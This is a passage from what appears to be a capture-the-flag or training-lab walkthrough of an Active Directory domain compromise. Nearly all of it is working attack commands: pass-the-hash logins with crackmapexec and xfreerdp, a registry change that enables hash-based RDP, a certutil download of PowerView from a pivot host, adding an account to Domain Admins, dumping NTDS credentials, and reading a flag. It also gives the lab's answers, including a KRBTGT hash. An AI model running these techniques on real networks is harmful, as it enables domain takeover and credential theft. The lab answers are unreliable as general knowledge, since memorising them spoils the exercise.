proxychains crackmapexec smb 172.16.7.50 -u mssqlsvc -H 8c9555327d95f815987c0d81238c7660 -d INLANEFREIGHT.LOCAL -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f' --exec-method smbexec

# With the registry modified, we can now establish an RDP connection:
proxychains xfreerdp /v:172.16.7.50 /u:mssqlsvc /pth:8c9555327d95f815987c0d81238c7660 /cert-ignore

# Once connected, open a PowerShell terminal as Administrator and download the PowerView.ps1 module from the Parrot pivot machine (172.16.7.240):
certutil -urlcache -split -f http://172.16.7.240:9001/PowerView.ps1 PowerView.ps1

# Using the PowerView module, the user CT059 will add AB920 to the Domain Admins group:
$SecPassword = ConvertTo-SecureString 'charlie1' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\CT059', $SecPassword)
Import-Module .\PowerView.ps1
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'AB920' -Credential $Cred

# Now, with the AB920 account in the Domain Admins group, we can proceed to dump the NTDS:
proxychains crackmapexec smb 172.16.7.3 -u AB920 -p weasal -d INLANEFREIGHT.LOCAL --ntds

# Confirming that the connection is successful:
proxychains crackmapexec smb 172.16.7.3 -u Administrator -H '234a798328eb83fda24119597ffba70b' -x 'whoami' --exec-method smbexec

# Finally, dumping the flag:
proxychains crackmapexec smb 172.16.7.3 -u Administrator -H '234a798328eb83fda24119597ffba70b' -x 'type c:\Users\Administrator\Desktop\flag.txt' --exec-method smbexec
```

Results: acLs_f0r_th3_w1n!


**Submit the NTLM hash for the KRBTGT account for the target domain after achieving domain compromise.**

```
proxychains crackmapexec smb 172.16.7.3  -u AB920 -p weasal -d INLANEFREIGHT.LOCAL --ntds
# Krbtgt:502:aad3b435b51404eeaad3b435b51404ee:7eba70412d81c1cd030d72a3e8dbe05f::: 
```

Results: 7eba70412d81c1cd030d72a3e8dbe05f

